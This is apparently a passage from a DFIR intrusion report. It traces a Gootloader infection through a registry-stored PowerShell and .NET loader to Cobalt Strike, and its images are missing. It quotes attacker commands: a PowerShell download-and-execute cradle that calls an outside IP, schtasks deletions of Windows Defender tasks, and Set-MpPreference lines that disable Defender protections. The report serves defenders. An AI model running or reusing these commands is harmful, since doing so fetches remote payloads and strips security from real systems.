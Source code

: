 
 

 
Following the Registry events, a PowerShell command was launched executing an encoded command.
 

The PowerShell command will extract the .NET loader from HKCU:\SOFTWARE\Microsoft\Phone\Username0 and execute the code in memory via `Assembly.Load()`.

This CyberChef recipe can be used to decode the related PS encoded payload.
 
Once the PowerShell script is finished running, the next stage involves the .NET loader. The .NET loader will read HKCU:\SOFTWARE\Microsoft\Phone\Username and extract the encoded Cobalt Strike payload. This payload will be decoded and subsequently loaded into memory for execution.
 
A simple encoding scheme is used where a letter will correspond to one of the hex characters (0-F), or alternately three zeros.
 
The following shows the source code responsible for the core logic of the .NET loader.
 

The below diagram summarizes the Gootloader initial execution. 
 

An excellent resource from Microsoft describes a set of configurations that can be applied to Windows that can stop .js files from executing, preventing this attack chain from ever getting off the ground.
 
During later stages of the intrusion, Cobalt Strike was executed interactively through RDP on multiple systems.
 
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('hxxp://37.120.198.225:80/trio'))"
 
# Persistence
The Javascript (Gootloader) file invoked an encoded PowerShell command.
 

 

The task created from the PowerShell script:
 

 
# Defense Evasion
Windows Defender scheduled scans were deleted from the system. This was observed on multiple servers the threat actor pivoted to.
- schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f
- schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f
- schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f
- schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f

Furthermore, PowerShell was used to disable multiple security features built into Microsoft Defender.
- Set-MpPreference -DisableRealtimeMonitoring $true
- Set-MpPreference -DisableArchiveScanning $true
- Set-MpPreference -DisableBehaviorMonitoring $true
- Set-MpPreference -DisableIOAVProtection $true
- Set-MpPreference -DisableIntrusionPreventionSystem $true
- Set-MpPreference -DisableScanningNetworkFiles $true
- Set-MpPreference -MAPSReporting 0
- Set-MpPreference -DisableCatchupFullScan $True
- Set-MpPreference -DisableCatchupQuickScan $True
